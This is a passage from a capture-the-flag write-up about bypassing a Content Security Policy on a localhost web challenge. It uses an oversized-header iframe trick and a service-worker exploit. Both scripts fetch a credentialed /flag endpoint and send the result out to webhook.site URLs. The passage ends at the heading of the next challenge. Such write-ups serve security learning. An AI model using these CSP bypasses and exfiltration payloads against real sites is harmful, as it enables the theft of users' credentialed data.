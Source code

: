 By creating a response with a header that is too large and embedding it in an iframe, you can obtain a same-origin page without CSP, bypassing CSP:

``` js
var f=document.createElement('iframe');
f.src = `http://localhost:3000/js/index.js?q=${'a'.repeat(20000)}`;
document.body.appendChild(f);
f.onload = () => {    
    f.contentWindow.fetch('/flag', { headers: {'X-FLAG': 'a'}, credentials:'include' })
        .then(res => res.text())
        .then(flag => location='https://webhook.site/2ba35f39-faf4-4ef2-86dd-d85af29e4512?q='+flag)
}
```

Interestingly, using `window.open` does not work. It is said that window.open will redirect the error page to a place like `chrome://error`, so the origin becomes null.

The expected solution for this question is actually a service worker. It can be used under http + localhost to remove the CSP header by relying on the service worker.

Below is @DimasMaulana's exploit:

```py
from urllib.parse import quote

target = "http://localhost:3000"
webhook = "https://webhook.site/9a2fbf03-9a64-49d1-9418-3728945d5e10"
rmcsp = """
self.addEventListener("fetch", (ev) => {
    console.log(ev)
    let headers = new Headers()
    headers.set("Content-Type","text/html")
    if (/\/js\//.test(ev.request.url)){
        ev.respondWith(new Response("<script>fetch('/flag',{headers:{'X-FLAG':'1'},credentials:'include'}).then(async r=>{location='"""+webhook+"""?'+await r.text()})</script>",{headers}))
    }
});
console.log("registered2")
document = {}
document.getElementById = ()=>{return {innerText:"testing"}}
"""

workerUrl = "/js/index.js?expr="+quote(rmcsp)

payload = "navigator.serviceWorker.register('"+workerUrl+"');setInterval(()=>{location='/js/test'},2000)"

print(payload)
payload = target+"/js/..%2f?expr="+quote(payload)
```

### blink (14 solves)

The core code for this question is as follows:
